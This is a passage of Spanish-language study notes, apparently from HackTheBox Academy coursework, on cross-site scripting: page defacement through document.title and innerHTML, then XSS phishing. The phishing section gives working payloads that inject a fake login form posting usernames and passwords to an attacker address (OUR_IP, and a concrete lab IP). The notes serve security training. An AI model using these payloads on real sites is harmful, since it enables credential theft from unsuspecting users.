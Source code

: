Solo hay que modificar el atributo document.title como hemos estado haciendo con los otros como document.body.background o document.body.style.background:
<script>document.title = 'HackTheBox Academy'</script>

##### Cambiar el contenido de la página

Se trata de cambiar el atributo del texto de página:
document.getElementById("todo").innerHTML = "New Text"

También se pueden utilizar funciones de JQuery:
$("#todo").html('New Text');

Y para cambiar en lugar de todo el código html, solo el body:
document.getElementsByTagName('body')[0].innerHTML = "New Text"

En esta última elegimos el objeto body directamente y con el [0] especificamos que es el primer body que aparezca en la página.

#### Phishing with XSS

Primero de todo, hay que encontrar una vulnerabilidad XSS dónde poder inyectar nuestro código malicioso.

##### Login Form Injection

Una vez identificada la vulnerabilidad XSS podemos crear el ataque de phishing, por ejemplo creando un form falso. Un ejemplo de form falso sería el siguiente:

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Dónde pone OUR_IP sería la IP a la que queremos que lleguen los contenidos del login.
Todo ese código se tiene que poner dentro de un document.write():
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.16.166:80><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script> 


#### Session hijacking

Blind XSS

Las Blind XSS ocurren cuando una página es vulnerable a XSS y no podemos comprobarlo, esto nos lleva a dos preguntas, la página es realmente vulnerable y si lo es qué payload deberíamos utilizar para que funcione.
